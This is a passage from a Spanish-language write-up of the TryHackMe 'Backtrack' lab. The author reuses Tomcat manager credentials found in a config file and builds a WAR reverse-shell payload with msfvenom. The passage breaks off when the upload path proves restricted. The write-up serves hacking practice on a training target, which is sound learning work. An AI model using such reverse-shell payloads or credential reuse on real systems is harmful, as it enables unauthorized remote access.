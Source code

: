 ```
  <user username="tomcat" password="**********" roles="manager-script"/>

</tomcat-users>
```

Reutilizamos las credenciales sobre el panel y logramos acceder sin problemas:
![](../assets/img/backtrack-tryhackme-writeup/4.png)

Creamos un fichero *WAR* con **msfvenom**:
```
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.41.86 LPORT=443 -f war > m3n0s.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
```

Pero parece que no nos va a resultar tan fácil, debido a que no tenemos permitido el acceso sobre algunas rutas, incluyendo el fichero que dispone del formulario de subida con formato *WAR*:
